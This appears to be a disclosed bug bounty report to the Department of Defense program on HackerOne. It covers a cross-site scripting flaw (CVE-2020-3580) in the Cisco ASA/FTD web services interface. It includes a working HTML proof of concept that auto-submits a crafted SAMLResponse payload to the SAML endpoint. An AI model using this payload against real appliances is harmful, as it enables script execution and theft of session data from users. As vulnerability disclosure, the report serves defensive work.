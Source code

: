 # XSS due to CVE-2020-3580 [███]

## Report Details
- **Report ID**: 1277389
- **URL**: https://hackerone.com/reports/1277389
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-07-25T20:32:45.176Z
- **Disclosed**: 2021-09-09T19:57:12.414Z

## Reporter
- **Username**: fdeleite
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Multiple vulnerabilities in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct cross-site scripting (XSS) attacks against a user of the web services interface of an affected device. 

 Steps To Reproduce 

 Go to this  URL 

 http://www.info-sec.cl/post-xss-███.html 

 HTML POC:
 
 <html>
  <body>
 <script>history.pushState('', '', '/')</script>
 <form action='https://'██████'/+CSCOE+/saml/sp/acs?tgname=a' method='POST'>
 <input type='hidden' name='SAMLResponse' value='&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;document&#46;cookies&#41;&gt;'/>
 </form>
 <script>
 document.forms[0].submit();
</script>
</body>
</html>

## Impact

- An attacker could exploit these vulnerabilities by persuading a user of the interface to click a crafted link.
 - A successful exploit could allow the attacker to execute arbitrary script code in the context of the interface or allow the attacker to access sensitive, browser-based information. 

 Note: These vulnerabilities affect only specific AnyConnect and WebVPN configurations.

 Supporting Material References
 https://www.exploit-db.com/exploits/47988
 https://twitter.com/sagaryadav8742/status/1275170967527006208

## Attachments
No attachments

